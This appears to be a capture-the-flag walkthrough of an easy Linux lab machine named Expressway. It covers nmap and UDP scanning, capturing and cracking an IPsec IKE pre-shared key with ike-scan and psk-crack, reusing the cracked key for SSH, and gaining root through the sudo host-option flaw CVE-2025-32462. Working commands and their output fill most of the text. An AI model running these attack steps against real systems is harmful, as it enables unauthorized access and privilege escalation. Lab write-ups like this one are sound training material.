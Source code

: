 # Expressway

## Box Info

***

| OS    | Difficulty |
| ----- | ---------- |
| Linux | Easy       |

## 0x1 Nmap Scan

### TCP Scan

```bash
nmap -sV -sC 10.10.11.87
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 18:35 EEST
Nmap scan report for 10.10.11.87
Host is up (0.32s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

we try to scan all ports but just `ssh` is only open using TCP Scan

### UDP Scan

```bash
sudo nmap -sU -T4 10.10.11.87
```

```
PORT      STATE         SERVICE
2/udp     filtered      compressnet
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp
682/udp   filtered      xfr
959/udp   filtered      unknown
3702/udp  filtered      ws-discovery
4500/udp  open|filtered nat-t-ike
4666/udp  filtered      edonkey
5632/udp  filtered      pcanywherestat
6050/udp  open|filtered x11
18373/udp open|filtered unknown
20217/udp filtered      unknown
20752/udp filtered      unknown
22055/udp open|filtered unknown
25931/udp filtered      unknown
31109/udp filtered      unknown
32931/udp filtered      unknown
49169/udp filtered      unknown
49188/udp filtered      unknown
49200/udp open|filtered unknown
```

we will notice **port 500** is open which associated with the **IKE** (Internet Key Exchange) service. This protocol is the foundation of IPsec VPNs, used to negotiate secure tunnels. This is our attack surface.

## 0x2 IKE-Scan

`ike-scan` probes IKE (ISAKMP) services (typically UDP/500 or UDP/4500 with NAT-T) to discover VPN gateways and fingerprint them (Vendor ID/backoff). Key features:

```bash
sudo ike-scan 10.10.11.87
```

```
10.10.11.87     Main Mode Handshake returned HDR=(CKY-R=d7fed0ff80bab75b) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

```

{% hint style="success" %}
* The target responded with a **Main Mode IKE handshake**. IKE is running.
* SA: `3DES / SHA1 / DH group 2 (modp1024) / Auth=PSK / Lifetime=28800s`. → Server uses PSK auth with older crypto parameters.
* Vendor IDs returned: **XAUTH** (implies additional username/password auth for remote-access) and **Dead Peer Detection v1.0**.
* `1 returned handshake; 0 returned notify` → one host responded with handshake; no notify messages.
* Next steps (with permission): capture packets with tcpdump, use `-aggressive --pskcrack` to extract PSK params for offline cracking (ethical/legal warning), and run fingerprinting (`-showbackoff` / VID patterns).
{% endhint %}

### Aggressive Scan

```bash
sudo ike-scan --aggressive --pskcrack=psk.out 10.10.11.87
```

![](<../.gitbook/assets/2025 09 21_19_54_25 Kali_Linux_ _VMware_Workstation.png>)

![](../.gitbook/assets/image.png)

### Crack PSK

```bash
psk-crack -d ~/wordlist/rockyou.txt psk.out
```

```
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 73da6b21b10d497e7bc121d2b7d814be265064a3
Ending psk-crack: 8045039 iterations in 5.740 seconds (1401687.07 iterations/sec)

```

## 0x3 Initial foothold

```bash
ssh ike@10.10.11.87 
```

```
ke@10.10.11.87's password: 
Last login: Sun Sep 21 17:04:15 BST 2025 from 10.10.16.75 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 21 17:15:32 2025 from 10.10.16.73
ike@expressway:~$ ls
CVE-2025-32462.sh  user.txt
ike@expressway:~$ cat user.txt 

```

**We found something interest**

* **`CVE-2025-32462`** → can privilege user to root permission using `sudo -h`
* **`ike`** user is a member of proxy group
* **`PATH`** → has a multiple sudo account which default sudo path is `/usr/bin/sudo` and machine sudo path /`usr/local/bin/sudo` and non default is the first in path

### Finding One

***

![](<../.gitbook/assets/2025 09 21_20_17_26 Kali_Linux_ _VMware_Workstation.png>)

that's meaning if we use [`localhost`](http://localhost) with `sudo -h` we can get root permission

### Finding Two

***

we are a member in proxy group so this group often has permissions related to proxy services like `Squid`

```bash
ike@expressway:~$ ls -l /var/log/squid/
total 20
-rw-r----- 1 proxy proxy 4778 Jul 23 01:19 access.log.1
-rw-r----- 1 proxy proxy   20 Jul 22 19:32 access.log.2.gz
-rw-r----- 1 proxy proxy 2192 Jul 23 01:47 cache.log.1
-rw-r----- 1 proxy proxy  941 Jul 23 01:47 cache.log.2.gz
```

check first file

```bash
ike@expressway:~$ cat /var/log/squid/access.log.1

```

![](<../.gitbook/assets/2025 09 21_20_11_54 Kali_Linux_ _VMware_Workstation.png>)

that’s refer client tried to access an internal-only host named `offramp.expressway.htb` through the proxy

### Finding Three

***

we will use none default root path

<figure><img src="../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>

## 0x4 Root

***

```bash
ike@expressway:~$ /usr/local/bin/sudo -h offramp.expressway.htb bash
```

<figure><img src="../.gitbook/assets/image 2.png" alt=""><figcaption></figcaption></figure>
